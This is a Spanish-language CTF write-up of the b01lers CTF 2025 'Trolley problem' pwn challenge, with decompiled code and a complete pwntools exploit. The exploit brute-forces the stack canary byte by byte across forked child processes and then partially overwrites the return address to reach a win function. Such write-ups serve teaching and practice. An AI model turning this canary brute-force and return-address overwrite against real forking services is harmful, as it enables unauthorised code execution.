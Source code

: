 # Trolley problem

### Analisis

```
checksec --file=chall
[*] '/home/kalcast/Temporal/Copiar/b01lers_CTF_2025/Pwn/trolley-problem/trolley-problem/src/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

El programa nos brinda una entrada de usuario, si nuestra entrada es "pull the lever" obtenemos una entrada mas, si es cualquier otra cosa obtenemos 5 entradas mas.

```
Oh no! A runaway trolley is heading down the track
and is about to cause five more trolley problems.
You can pull a lever to divert the trolley onto another track,
where it will only cause one trolley problem. What do you do?
whatever

You did nothing. Isn't that the wrong choice though?
Uh oh, here comes another trolley...

Oh no! A runaway trolley is heading down the track
and is about to cause five more trolley problems.
You can pull a lever to divert the trolley onto another track,
where it will only cause one trolley problem. What do you do?
pull the lever

You pulled the lever. But what did it accomplish?
Uh oh, here comes another trolley...

Oh no! A runaway trolley is heading down the track
and is about to cause five more trolley problems.
You can pull a lever to divert the trolley onto another track,
where it will only cause one trolley problem. What do you do?
AAAAAAAABBBBBBBBCCCCCCCC1

You did nothing. Isn't that the wrong choice though?
*** stack smashing detected ***: terminated

Oh no! A runaway trolley is heading down the track
and is about to cause five more trolley problems.
You can pull a lever to divert the trolley onto another track,
where it will only cause one trolley problem. What do you do?
```

En fin, hay un buffer overflow con un offset de 24 bytes como se puede observar, el mensaje "Uh oh, here comes another trolley..." es cambiado por "*** stack smashing detected ***: terminated" si esto ocurre. No ganamos entradas extra si hacemos esto.

Pasa lo siguiente: el programa crea un fork, el hijo rompe el bucle y llama a sym.trolley_problem(), el padre espera a que el hijo retorne un valor (1 o 5) con waitpid():

``` C
    while( true ) {
        if ((*0x5582d4f64068 & *0x5582d4f64068) < 1) {
            return 0;
        }
        *0x5582d4f64068 = *0x5582d4f64068 + -1;
        *(puVar6 + -8) = 0x5582d4f61363;
        iStack_10 = sym.imp.fork();
        if (iStack_10 == 0) break;
        iVar1 = iStack_10;
        puVar5 = puVar6 + -8;
        *(puVar6 + -8) = 0x5582d4f61382;
        sym.imp.waitpid(iVar1, &stack0xffffffffffffffec, 0);
        puVar4 = puVar6 + 0;
        uStack_c = iStack_14 >> 8 & 0xff;
        if ((uStack_c == 1) || (puVar6 = puVar6 + 0,  uStack_c == 5)) {
            *0x5582d4f64068 = uStack_c + *0x5582d4f64068;
            *puVar5 = 0x5582d4f613bc;
            sym.imp.puts("Uh oh, here comes another trolley...");
            puVar6 = puVar4;
        }
    }
    *(puVar6 + -8) = 0x5582d4f613c3;
    uVar2 = sym.trolley_problem();
    return uVar2;
}
```

Si el hijo retorna alguno de estos aumenta  `*0x5582d4f64068`, que si llega a cero se termina el programa:
``` C
  if ((*0x5582d4f64068 & *0x5582d4f64068) < 1) {
            return 0;
        }
```

### Exploit

Todos los hijos creados con fork() tienen el mismo ASLR y canario. Podemos hacerle fuerza bruta al canario y luego aprovechando que sym.win y sym.main solo suelen diferir en 2 o 3 bytes por su desplazamiento podemos sobreescribir la direccion de retorno de forma parcial.

Aspectos a tener en cuenta: 
- `En caso de que el canario contenga un byte 0xa se generara un falso negativo`
- `Si sym.main y sym.trolley_problems difieren en mas de 2 bytes la sobreescitura falla`

Pero esto es algo sobrepasable considerando que es poco probable y en un par de intentos podemos lograrlo:

``` python
from pwn import *
elf = context.binary = ELF("./chall")
io = process("./chall")
#io = remote("trolley-problem.harkonnen.b01lersc.tf",8443,sni=True,ssl=True)


def brute_force_canary():
    # Generate problems
    problems = 256*8 // 5
    for i in range(problems):
        io.sendline(b"I want problems!")
        io.recvuntil(b"you do?")
        print(f"Generating problems [{i+1}/{problems}]")
    io.recvuntil(b"you do?")
    # Find canary
    canary = b"\x00"
    known_bytes = 1
    while known_bytes < 8:
        for byte in range(256):
            if byte == 0xa:
                continue
            payload = flat(b"A"*24,canary,bytes([byte]))
            io.sendline(payload)
            for i in range(3):
                io.recvline()
            lines = io.recvuntil(b"you do?")
            if b'Uh oh' in lines:
                print(f"Updating canary: {canary}")
                canary += bytes([byte])
                break
        known_bytes+=1
    return canary

def checkCanary(io,canary) -> bool:
    print("Checking canary")
    io.sendline(flat(b"A"*24,canary))
    for i in range(3):
     io.recvline()
    lines = io.recvuntil(b"you do?")
    if b'Uh oh' in lines:
        print("Canary found")
        return True
    print("Wrong canary, maybe a false positive?")
    return False


# Paso 1: Fuerza bruta del canary
canary = brute_force_canary()
assert checkCanary(io,canary)
# Paso 2: Sobreescritura parcial
payload = flat(
            b"A"*24,
            canary,
            b"A"*8,
            p8(elf.sym.win & 0xFF)
        )
io.sendline(payload)
io.interactive()
```



